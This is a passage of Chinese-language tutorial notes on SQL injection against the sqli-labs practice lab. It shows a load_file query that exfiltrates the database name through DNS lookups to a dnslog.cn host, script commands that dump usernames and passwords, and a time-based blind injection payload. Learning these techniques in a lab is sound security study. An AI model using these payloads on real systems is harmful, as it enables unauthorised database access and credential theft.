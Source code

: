 3. ```sql
   select load_file(concat("//",(select database()),".sy119q.dnslog.cn/anyfile.txt"))
   ```

4. 注意：不要漏掉中间的 “.”，也不要忘了再最后加一个文件的名字。看到页面打着转转就知道大概率成功了，因为你的文件名是乱填的，它不可能找得到

5. 点击 dnslog 刷新按钮，即可看到目标服务器的请求



load_file() 既可以读取本机文件（看对方有没有放开这个权限），也可以读取互联网上的文件

似乎只能用于windows服务器上

双斜杠可以改成 4 个反斜杠

双反斜杠代表Microsoft Windows通用命名约定（UNC）的文件和目录路径格式利用任何以下扩展存储程序引发DNS地址解析，4 个反斜杠是因为考虑转义因素

需要打开文件读写权限

# 使用脚本 DnslogSqlinj

```shell
python2 dnslogSql.py -u "http://192.168.216.134/sqli-labs-php7/Less-9/?id=1' and ({})--+" --dbs
python2 dnslogSql.py -u "http://192.168.216.134/sqli-labs-php7/Less-9/?id=1' and ({})--+" -D security --tables
python2 dnslogSql.py -u "http://192.168.216.134/sqli-labs-php7/Less-9/?id=1' and ({})--+" -D security -T users --columns
python2 dnslogSql.py -u "http://192.168.216.134/sqli-labs-php7/Less-9/?id=1' and ({})--+" -D security -T users -C username,password --dump
```



## 时间盲注

啥回显都没有，甚至没有真假值的区别，而网站会执行你写的代码，此时可以使用时间盲注

```sql
select if(ascii(substr((select database()),1,1))>100, sleep(0), sleep(3))
```

其中 if 函数：

```sql
if(condition, True, False)
```

条件式为真时执行 True 语句，条件式为假时执行 False 语句，从而达到判断的效果

# post 注入

1. 用 burp suite 抓包查看提交信息

   <img src="C:\Users\A2140\AppData\Roaming\Typora\typora-user-images\image-20240504155324178.png" alt="image-20240504155324178" style="zoom:67%;" />
